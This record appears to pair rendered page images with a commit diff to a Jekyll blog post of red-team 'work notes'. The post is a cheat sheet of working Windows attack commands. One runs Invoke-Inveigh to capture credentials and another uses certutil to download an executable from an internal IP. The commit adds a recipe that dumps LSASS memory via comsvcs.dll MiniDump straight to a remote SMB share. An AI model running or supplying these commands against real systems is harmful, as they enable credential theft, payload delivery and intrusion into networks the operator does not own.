

Before and after one commit to secmuzz/blog, a Jekyll site: the page built from _posts/2020-03-04-work-notes.md, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
notes update

````diff
--- a/_posts/2020-03-04-work-notes.md
+++ b/_posts/2020-03-04-work-notes.md
@@ -9,6 +9,13 @@ tags: notes
 `Invoke-Inveigh -ConsoleOutput Y -HTTPPort 8080 -FileOutput Y -FileOutputDirectory .`
 
 `certutil.exe -urlcache -split -f http://172.16.10.1/obfs.exe`
+
+LSASS dump without touching disk
+
+```
+net use x: \\mysmbserver\c$\
+powershell -c rundll32.exe C:\windows\System32\comsvcs.dll MiniDump (Get-Process lsass).id x:\lassdump.bin full
+```
 
 NTDS audit
 
````
